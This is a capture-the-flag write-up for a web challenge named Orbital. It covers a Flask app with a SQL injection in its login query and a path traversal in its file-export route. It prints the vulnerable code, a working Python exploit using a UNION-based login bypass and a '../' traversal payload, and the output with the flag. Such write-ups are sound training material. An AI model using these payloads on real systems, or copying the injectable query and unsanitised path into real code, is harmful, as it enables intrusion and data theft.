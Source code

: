 # [Web - easy] Orbital

This webapp given is written in Python with a MySQL database, and allows an authenticated user to export files from a `communications` directory.

There are 2 vulnerabilities to exploit, which are highlighted by comments in the code provided:

- an SQLi from the login:
```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
```
- a path traversal from the authenticated `exportFile` function:
```python
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
```

To get the flag, our goal is to:

- authenticate as the `admin` user using the SQLi
- get the flag with the authenticated session, at `/signal_sleuth_firmware` using the path traversal

The final script is:
```
import requests
import hashlib

endpoint = "http://46.101.95.70:30610"

username = 'admin'
password = 'whateverhere'
flag = '../../../../../../signal_sleuth_firmware'

# SQLi
sqli = {
    'username': 'aaa" UNION ALL SELECT "{}","{}" -- aaa'.format(username, hashlib.md5(password.encode('utf-8')).hexdigest()),
    'password': password
}
s = requests.Session()
response = s.post(endpoint + '/api/login', json = sqli)
print(response.headers)

# Path traversal
response = s.post(endpoint + '/api/export', json = {"name": flag})
print(response.text)
```

Which gives the output:
```
$ python lol.py
{'Server': 'Werkzeug/2.2.3 Python/3.8.16', 'Date': 'Sat, 25 Mar 2023 07:08:56 GMT', 'Content-Type': 'application/json', 'Content-Length': '22', 'Vary': 'Cookie', 'Set-Cookie': 'session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOelE1TnpNMmZRLkNHUFZ4UVRzQzIzZjdwcl8yei1YX0JpdERpMzZwQUQ1eENhaVdYMF94aVkifQ.ZB6eCA.sXgq1TzO2ADdGDmCcuyN6titBao; HttpOnly; Path=/', 'Connection': 'close'}
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```
